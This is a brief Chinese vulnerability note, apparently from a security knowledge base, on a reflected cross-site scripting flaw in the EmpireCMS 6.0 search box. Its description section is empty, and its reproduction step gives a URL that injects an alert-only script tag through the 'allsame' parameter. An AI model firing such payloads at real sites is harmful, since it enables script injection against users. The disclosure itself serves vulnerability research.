 EmpireCMS 6.0 搜索框xss
=======================

一、漏洞简介
------------

二、漏洞影响
------------

EmpireCMS 6.0

三、复现过程
------------

    https://www.0-sec.org/search/keyword/index.php?allsame=3"><script>alert(/zerosec/)</script>
